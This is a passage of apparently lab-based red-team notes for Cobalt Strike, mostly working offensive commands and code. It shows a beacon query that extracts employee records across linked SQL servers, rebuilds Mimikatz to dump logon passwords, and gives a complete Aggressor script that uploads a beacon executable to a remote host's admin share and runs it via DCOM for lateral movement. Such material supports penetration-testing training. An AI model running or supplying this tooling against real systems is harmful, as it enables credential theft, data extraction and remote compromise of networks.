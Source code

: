```bash
beacon> powershell Get-SQLQuery -Instance "sql-2.dev.cyberbotic.io,1433" -Query "select * from openquery(""sql-1.cyberbotic.io"", 'select top 5 first_name,gender,sort_code from master.dbo.employees')"
```

### Exfiltration

- https://github.com/RedSiege/Egress-Assess

## Extending Cobalt Strike (Agressor)

### Mimikatz

> If you get this error `ERROR kuhl_m_sekurlsa_acquireLSA ; Logon list` with `beacon> logonpasswords`

```bash
ubuntu@DESKTOP-3BSK7NO /m/c/T/c/a/k/mimikatz> pwd
ubuntu@DESKTOP-3BSK7NO /m/c/T/c/a/k/mimikatz> ./build.sh /mnt/c/Tools/cobaltstrike/mimikatz
# Load mimikatz.cna via the Cobalt Strike > Script Manager menu and clicking the Load button.  After loading the CNA, Mimikatz will now function as expected.
beacon> logonpasswords
```

### Jump & Remote-Exec

#### Add Invoke-Dcom.ps1 to jump

> Make sure to load the script via the Script Manger (Cobalt Strike > Script Manager).

```
sub invoke_dcom
{
    local('$handle $script $oneliner $payload');

    # acknowledge this command1
    btask($1, "Tasked Beacon to run " . listener_describe($3) . " on $2 via DCOM", "T1021");

    # read in the script
    $handle = openf(getFileProper("C:\\Tools", "Invoke-DCOM.ps1"));
    $script = readb($handle, -1);
    closef($handle);

    # host the script in Beacon
    $oneliner = beacon_host_script($1, $script);

    # generate stageless payload
    $payload = artifact_payload($3, "exe", "x64");

    # upload to the target
    bupload_raw($1, "\\\\ $+ $2 $+ \\C$\\Windows\\Temp\\beacon.exe", $payload);

    # run via powerpick
    bpowerpick!($1, "Invoke-DCOM -ComputerName  $+  $2  $+  -Method MMC20.Application -Command C:\\Windows\\Temp\\beacon.exe", $oneliner);

    # link if p2p beacon
    beacon_link($1, $2, $3);
}

beacon_remote_exploit_register("dcom", "x64", "Use DCOM to run a Beacon payload", &invoke_dcom);
```
